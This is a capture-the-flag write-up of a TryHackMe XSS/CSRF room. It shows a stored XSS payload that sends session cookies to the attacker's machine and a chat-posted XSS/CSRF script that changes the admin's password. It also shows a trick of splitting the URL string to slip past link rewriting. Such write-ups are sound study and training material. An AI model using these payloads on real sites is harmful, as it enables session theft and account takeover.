 # What’s My Name CSRF Challenge — TryHackme


This challenge tests client-side exploitation skills, from inspecting JavaScript to manipulating cookies to launching CSRF/XSS attacks.

## Nmap Scan

As with all challenges, we need to perform an Nmap scan to map the machine’s open services:

SSH is not useful unless we have a username and password. After checking the other two ports, they are identical. Since we have a web application, we can enumerate the directories with GoBuster.

## Editing /etc/hosts

As the mission guides, we need to edit the `/etc/hosts` file to include the domain:

## Web Application

We can see that the web application navigates by default to the following page with the path of `/public/html`.

Going a folder before that, we can see the JavaScript, CSS, and HTML of the page.

## JavaScript Directory

In the `js` directory, we can see some interesting functions used within the web application.

## Register Page

Another feature is the Register page. One thing that caught my eye is the Name field. Since it is an XSS/CSRF challenge, I decided to send cookies to my machine to see if I could get a user’s session token to take over.

In the register page, the details should be filled, with the Name field containing the payload in it:

```html
<script>
var img = new Image();
img.src = 'http://<ip>:<port>/stealcookies?' + document.cookie;
</script>
```

After waiting a few seconds, the payload did its job, and now we have session cookies to work with.

## Using the Cookies

Use the cookies by updating the session token, then reload the page. Once refreshed, I managed to access the Moderator account successfully.

Notice the message below — `login.worldwap.thm` is available to access. Yet nothing here.

## Login Page

So I tried to insert `login.php` since the `/public/js` contained the `login.js`, so I took a guess, and it worked. Insert the PHP session token again, and you will manage to get into the user account. From there, we can see the flag in plain sight.

## Admin Flag

Now we need the Admin flag. I poked around the website, and the first thing I tried was to XSS the search field, in vain.

The change password is an interesting vector, but since we got in using the session token and not the password, we can’t really use it directly.

When I tried it, I was greeted with the message saying only the admin can change the password.

## Chat Page

I went to the Go to Chat page, attempting the XSS PoC payload, which worked. I also noticed that when I refreshed the page, the alert message kept appearing — which makes sense since the messages are stored on the server and presented to the user every time they are in the chat.

Since I know the admin will open the chat box, I know they’ll get the same payload as I do. So I used the payload from task 7 from the CSRF TryHackMe room and crafted it to point to the change password page:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', "http" + "://login.worldwap.thm/change_password.php", true);
xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.onreadystatechange = function () {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
alert("Action executed!");
}
};
xhr.send('action=execute&new_password=lidorroccah');
</script>
```

The `alert("Action executed!");` did not work as there was no pop-up message to indicate success PoC, so the payload did not work.

## Troubleshooting

Since the payload did not work for me, I asked ChatGPT what I could do, and one of its suggestions was to check if the payload was not tampered with by the server. Since it’s an XSS, and the payload is a part of the browser, you can check from the page source, and I discovered the payload was interrupted by the `<a href:`.

The browser recognized it as a link, so what we need to do is to break it, even for a bit, so it won’t read it as a link.

For example:

From `http://login.worldwap.thm/change_password.php` ===> `http` + `://login.worldwap.thm/change_password.php`

Let’s try it out:

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', "http" + "://login.worldwap.thm/change_password.php", true);
xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.onreadystatechange = function () {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
alert("Action executed!");
}
};
xhr.send('action=execute&new_password=lidorroccah');
</script>
```

Put it in the message box. We can see that the payload has worked. It also means that the admin password has changed.

This also worked due to the SOP policy being met as the payload works on the same domain and protocol.

Once the password is changed, log in with the user `admin` and the password you set, and you should be able to see the admin flag.